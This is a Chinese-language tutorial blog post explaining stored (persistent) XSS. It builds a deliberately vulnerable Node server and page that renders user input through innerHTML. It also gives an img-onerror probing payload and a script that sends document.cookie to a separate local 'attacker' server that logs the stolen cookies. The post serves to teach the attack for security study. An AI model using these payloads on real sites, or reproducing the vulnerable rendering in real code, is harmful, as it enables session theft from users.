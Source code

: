 ```yaml
---
tags: ['网络安全', '面试问题 - 网络']
date: '10.24.2019'
image: '/xss-beat-intro.png'
---
```


# XSS 攻击 - 存储型

> Posted: 10.24.2019

<Tag />

## 存储型 XSS 的特点

存储型 XSS，也叫持久型 XSS。

主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。）。

然后在下次请求页面的时候就不用带上XSS代码了

最典型的就是留言板XSS：

1. 用户提交了一条包含XSS代码的留言到数据库
2. 当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来
3. 浏览器发现有XSS代码，就当做正常的HTML和JS解析执行
4. XSS攻击就发生了

![xss-stored](/xss-stored.png)

和反射型 XSS 攻击不同的是，<span v-red>**存储型 XSS 直接攻击了具有漏洞的网站本身！**</span>

因为它在数据库里注入了恶意的内容！（当然，最后付出代价的还是用户自己）

## 代码模拟

### 被攻击的服务器

首先我们起一个普通的 node 服务器，作为被攻击的网站服务器。

这个服务器很简单，就是注册用户，然后将用户的邮箱存储到数据库里。

当然，我们这里就不搞真的数据库了，就用内存暂时代替一下。

<span v-line>别问为什么不用 localStorage，localStorage 是 H5 的特性，服务器没有。</span>

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const path = require('path');

const app = express();

// 直接用内存当数据库了
const db = [];

app.use(bodyParser.urlencoded({ extended: true, limit: "50mb" }));
app.use(bodyParser.json({ extended: true, limit: "50mb" }));

app.use(express.static("./xss-stored.html"));
app.use(express.static("./xss-stored-result.html"));

app.get("/index", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored.html'));
});

app.get("/result", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored-result.html'));
});

app.get("/users", (req, res) => {
  res.status(200).json(db);
});

app.post("/register", (req, res) => {
  const { username, email } = req.body;
  db.push({ username, email });
  res.status(200).end('success!');
});

app.listen(8081, () => console.log("SB server running on port 8081"));
```

### 被攻击的客户端

前端就是用来展示搜索的结果

注册页面：

```html
<body>
  <div class="container">
    <form id="myform">
      用户名： <input type="text" placeholder="username..." id="username" /><br />
      邮箱： <input type="text" placeholder="email..." id="email" /><br /><br />
      <button class="submit-btn">注册</button>
    </form>
  </div>
  <script>
    // 绑定表单的提交
    document.querySelector(".submit-btn").addEventListener('click', (e) => {
      e.preventDefault();
      var username = document.querySelector('#username').value;
      var email = document.querySelector('#email').value;
      var data = { username, email };

      var xhr = new XMLHttpRequest();
      xhr.open('post', '/register', true);
      xhr.setRequestHeader('Content-Type', 'application/json');
      xhr.send(JSON.stringify(data));

      xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
          window.location.href = '/result';
        }
      }
    });
  </script>
</body>
```

注册成功后跳转到结果页面：

```html
<body>
  <div class="result"></div>
  <script>
    // 原生 AJAX 方法
    var xhr = new XMLHttpRequest();
    xhr.open('get', `http://localhost:8081/users`, true);
    xhr.send();
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4 && xhr.status === 200) {
        var users = JSON.parse(xhr.responseText);
        users.forEach(user => {
          var div = document.createElement('div');
          var text = '用户名：' + user.username + '，邮箱：' + user.email;
          div.innerHTML = text;
          document.querySelector('.result').appendChild(div);
        });
      }
    }
  </script>
</body>
```

最终实现的效果是这样的：

![xss-stored-pro](/xss-store-pro.gif)

### 攻击者寻找目标

攻击者这个时候会注册 `<img src=null onerror="alert('sb')" />` 这个字符串

能够帮助攻击者定位的，就是在结果页面，攻击代码被执行。

![xss stored attack](/xss-stored-attack.gif)

这个时候，攻击已经开始了，攻击者可以进行一些大胆的想法了。

### 开始攻击

和反射型 XSS 不一样，存储型 XSS 不需要发送任何邮件。

只要用户进入到 `localhost:8081/result` 这个页面，就会被攻击。

### 攻击者的攻击脚本

和反射型 XSS 一样，一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```

### 结果

当用户进入 result 页面时，我们成功地获取到了他的 cookie

![xss-stored-attack-result](/xss-stored-attack-result.png)

## 参考资料

[前端安全之XSS攻击](https://www.cnblogs.com/unclekeith/p/7750681.html)

[What is Cross Site Scripting (XSS) ?](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)

<Disqus />